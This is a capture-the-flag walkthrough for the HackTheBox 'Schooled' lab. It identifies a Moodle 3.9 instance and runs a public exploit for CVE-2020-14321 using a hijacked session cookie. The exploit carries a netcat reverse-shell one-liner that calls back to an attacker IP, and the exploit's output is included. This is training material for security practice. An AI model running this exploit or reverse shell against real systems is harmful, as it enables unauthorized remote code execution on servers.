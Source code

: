 There are quite a few results, most of which are version specific. We need to try and find out which version the target is running.

A quick google search for "" and we get an answer on stackexchange:

{% embed url="https://stackoverflow.com/questions/11548150/getting-moodle-version-info-no-admin-access" %}

Let's browse to the page suggested in the article above: [http://moodle.schooled.htb/moodle/lib/upgrade.txt](http://moodle.schooled.htb/moodle/lib/upgrade.txt)

&#x20;Looks like the version is 3.9 as this is the newest version number in the text file:

![](../../.gitbook/assets/11.JPG)

Looking at the exploits we found via searchsploit, there is only one that matches our exactly version:

```
Moodle 3.9 - Remote Code Execution (RCE) (Authenticated) | php/webapps/50180.py
```

Looking at the details for this exploit, we find that it relates to CVE-2020-14321.

### CVE-2020-14321

According to the exploit, this script will escalate our privileges from teacher to manager, which will give us access to site administration tools.

Copy the exploit to the working folder and review the code. Once we are happy that it is not going to destroy our box, let's run it. Since we don't have the password for "Manuel", we need to use the cookie option as shown below. In addition, we need to add the command for the reverse shell. Finally before we proceed with the exploit, start a netcat listener:

```
└─$ python3 CVE-2020-14321_RCE.py http://moodle.schooled.htb/moodle/ --cookie 1kf60palrqln883ht577rot01u -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.19.99 9999 >/tmp/f'
 __     __     __   __  __   __              __  __                                                              
/  \  /|_  __   _) /  \  _) /  \ __  /| |__|  _)  _) /|                                                          
\__ \/ |__     /__ \__/ /__ \__/      |    | __) /__  | • by lanz                                                
                                                                                                                 
Moodle 3.9 - Remote Command Execution (Authenticated as teacher)                                                 
Course enrolments allowed privilege escalation from teacher role into manager role to RCE                        
                                                        
[+] Login on site: MoodleSession:1kf60palrqln883ht577rot01u ✓
[+] Updating roles to move on manager accout: ✓
[+] Updating rol manager to enable install plugins: ✓
```